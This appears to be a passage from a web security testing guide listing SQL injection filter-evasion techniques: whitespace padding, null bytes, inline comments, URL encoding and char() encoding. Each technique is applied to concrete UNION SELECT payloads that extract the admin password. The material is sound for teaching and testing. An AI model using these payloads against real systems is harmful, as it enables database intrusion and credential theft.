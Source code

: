 #### White Space

Dropping space or adding spaces that won't affect the SQL statement. For example

```sql
or 'a'='a'

or 'a'  =    'a'
```

Adding special character like new line or tab that won't change the SQL statement execution. For example,

```sql
or
'a'=
        'a'
```

#### Null Bytes

Use null byte (%00) prior to any characters that the filter is blocking.

For example, if the attacker may inject the following SQL

`' UNION SELECT password FROM Users WHERE username='admin'--`

to add Null Bytes will be

`%00' UNION SELECT password FROM Users WHERE username='admin'--`

#### SQL Comments

Adding SQL inline comments can also help the SQL statement to be valid and bypass the SQL injection filter. Take this SQL injection as example.

`' UNION SELECT password FROM Users WHERE name='admin'--`

Adding SQL inline comments will be.

`'/**/UNION/**/SELECT/**/password/**/FROM/**/Users/**/WHERE/**/name/**/LIKE/**/'admin'--`

`'/**/UNI/**/ON/**/SE/**/LECT/**/password/**/FROM/**/Users/**/WHE/**/RE/**/name/**/LIKE/**/'admin'--`

#### URL Encoding

Use the [online URL encoding](https://meyerweb.com/eric/tools/dencoder/) to encode the SQL statement

`' UNION SELECT password FROM Users WHERE name='admin'--`

The URL encoding of the SQL injection statement will be

`%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--`

#### Character Encoding

Char() function can be used to replace English char. For example, char(114,111,111,116) means root

`' UNION SELECT password FROM Users WHERE name='root'--`
